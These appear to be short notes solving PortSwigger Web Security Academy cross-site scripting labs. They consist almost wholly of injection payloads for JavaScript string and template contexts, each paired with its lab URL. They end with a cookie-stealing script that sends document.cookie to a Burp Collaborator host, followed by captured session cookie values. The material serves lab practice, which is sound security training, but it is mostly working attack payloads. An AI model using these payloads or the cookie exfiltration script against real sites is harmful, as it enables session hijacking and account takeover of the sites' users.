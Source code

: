 https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped
In search box
```
</script><img src=1 onerror=alert(document.domain)>
```

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded
In search box
```
'-alert(document.domain)-'
```

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped
In search box
```
\';alert(document.domain)//
```

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

Comment URL
```
https://&apos;-alert(document.domain)-&apos;
```


https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

In search box
```
${alert(document.domain)}
```


## Exploiting

### Stealing Web Cookies

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

At the blog post

```
<script>
var i = new Image();
i.src = "http:/6t0nytid2c7d6pt6jtmovaya319txi.burpcollaborator.net/get.php?q="+document.cookie;
</script></p>
```

![](https://i.imgur.com/SgheCnu.png)


`secret=3jihJMZHg9rrQLLuT0iYiXHwczLAaDPK;%20session=8SzKz0Lub7LoeJe96awjrbLfwyWMJUZk `
